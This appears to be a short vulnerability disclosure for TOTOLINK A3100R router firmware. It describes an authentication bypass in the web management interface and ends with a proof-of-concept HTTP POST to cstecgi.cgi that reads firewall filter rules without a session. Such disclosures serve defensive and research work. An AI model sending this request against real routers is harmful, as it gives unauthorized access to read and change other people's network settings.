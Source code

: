 #unauthorized access

##A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

##Description:

TOTOLINK use sessoin to control web access,but we can bypass the limit by constructe topic url. Router information can be get and set by unauthorized user.

##Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

##Analyse:
normal request through webpage like follows
![](./img/28.png)

after we delete session ,we can still get the information.
![](./img/27.png)

##POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 47







{"topicurl":"setting/getIpPortFilterRules"}
```
